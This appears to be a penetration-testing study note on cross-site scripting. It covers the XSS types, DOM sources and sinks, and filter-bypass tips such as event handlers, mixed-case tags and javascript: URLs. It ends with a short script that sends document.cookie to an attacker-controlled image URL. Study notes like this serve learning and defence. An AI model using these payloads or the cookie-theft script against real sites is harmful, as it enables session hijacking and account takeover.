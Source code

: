 # XSS - Cross-Site Scripting

## Types

### Reflected

* The input is sent to the server and reflected on the page

### Stored

* Same but the input is also persisted in a db of some sort

### DOM

* The input is directly inserted into the DOM \(without being sent to the server at all\)
* **Sources** \(where the input goes\) :
  * `document.url`
  * `document.referrer`
  * `location`
  * `location.href`
  * `location.search`
  * `location.hash`
  * `location.pathname`
  * etc
* **Sinks** \(where the input ends up\) :
  * `element.innerHTML()`
  * `element.outerHTML()`
  * `eval()`
  * `setTimeout()`
  * `setInterval()`
  * `document.write()`
  * `document.writeln()`
  * etc
* A `<script>alert();</script>` inserted via `inner.html` won't be executed

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

## Tips

* Check which chars are escaped by using them with an easily recognizable safe string
* Use lists with _burp intruder_
* If `<script>` aren't accepted, use events like `onfocus`, `onload`, etc
  * You can accumulate functions in these event by separating them with `;`
* `<sCRipt>` tag aren't case sensitive
* Other places for xss :
  * Concatenated http parameter pollution
  * Url of action form : `javascript:alert(1337)`
  * Url : `data:text/html,<script>alert(0)</script>`
* `google.com/jsapi?callback=alert` can be used to received a function in a callback
* Check : [Bypassing Sanitizers](https://zcugni.gitbook.io/notes/pen-test/vulnerabilities#bypassing-sanitizers) & the [Owasp Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## XSS Auditor

* Exist in Chrome, not in Firefox and I don't know for the rest
* Broadly speaking, it detects XSS injection by comparing what is given in the url with the scripts of the page
  * Because of that, we can inject a script that a normal part of the page in the url to actually disable it
* Might soon disapear because it create vulnerabitilies and gives a false impression of security to devs

## Get a cookie with that

By example by injecting this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research

